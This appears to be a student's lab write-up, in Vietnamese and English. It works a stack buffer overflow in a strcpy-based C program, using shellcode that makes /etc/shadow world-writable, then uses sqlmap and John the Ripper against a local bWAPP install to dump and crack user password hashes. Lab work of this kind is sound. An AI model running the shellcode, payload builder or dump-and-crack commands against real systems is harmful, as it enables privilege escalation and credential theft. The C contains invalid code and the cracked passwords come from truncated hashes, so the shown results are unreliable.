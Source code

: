 # Lab #1,21110756, Nguyen Dinh Minh Chien , Information Security_ Nhom 03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
Biên dịch chương trình C
gcc -o vulnerable_program vulnerable_program.c
Biên dịch shellcode
gcc -o shellcode shellcode.c -z execstack -fno-stack-protector

Description text (optional)
 Tạo payload để thực hiện tấn công
 tạo payload bằng Python:

import sys

# Shellcode đã được cung cấp
shellcode = (
    "\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
    "\x3a\x56\x81\xc6\x23\x45\x35\x21"
    "\x89\x74\x24\xfc\xc7\x44\x24\xf8"
    "\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
    "\x2f\x65\x74\x63\x83\xec\x0c\x89"
    "\xe3\x66\x68\xff\x01\x66\x59\xb0"
    "\x0f\xcd\x80"
)

# Địa chỉ trả về giả định (cần điều chỉnh theo hệ thống của bạn)
return_address = "\x90\x90\x90\x90"

# Tạo payload
payload = "A" * 16 + return_address + shellcode

# Ghi payload vào file
with open("payload", "wb") as f:
    f.write(payload.encode('latin-1'))
Thực hiện tấn công
Chạy chương trình C với payload đã tạo:

./vulnerable_program $(cat payload)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Xác định URL mục tiêu có lỗ hổng:
Đăng nhập vào bWapp và chọn trang có lỗ hổng "SQL Injection".

http://localhost/bWapp/sqli_1.php?id=1

Chạy sqlmap để liệt kê các cơ sở dữ liệu:


sqlmap -u "http://localhost/bWapp/sqli_1.php?id=1" --dbs

Kết quả:
available databases [3]:
[*] bWAPP
[*] information_schema
[*] mysql



**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Liệt kê các bảng trong cơ sở dữ liệu bWAPP:

Chạy lệnh để liệt kê các bảng trong cơ sở dữ liệu bWAPP:

sqlmap -u "http://localhost/bWapp/sqli_1.php?id=1" -D bWAPP --tables
Trích xuất dữ liệu bảng users:

Sau khi có danh sách bảng, chạy lệnh sau để lấy thông tin từ bảng users:

sqlmap -u "http://localhost/bWapp/sqli_1.php?id=1" -D bWAPP -T users --dump
Kết quả:
 danh sách thông tin người dùng cùng với các hash mật khẩu từ bảng users:

+----+---------+----------------------------------+
| id | login   | password                         |
+----+---------+----------------------------------+
| 1  | bee     | $2y$10$J9sg3z...                 |
| 2  | admin   | $2y$10$3mW6C...                  |
+----+---------+----------------------------------+

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:


Lưu các hash mật khẩu vào file:

Tạo file hashes.txt chứa các hash mật khẩu:

bee:$2y$10$J9sg3z...
admin:$2y$10$3mW6C...

Chạy John the Ripper để bẻ khóa:

Sử dụng John the Ripper với từ điển rockyou.txt:

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Hiển thị mật khẩu đã bẻ khóa:

Xem kết quả của John:

john --show hashes.txt
Kết quả:

John sẽ trả về mật khẩu đã bẻ khóa:
makefile

bee:letmein
admin:password123


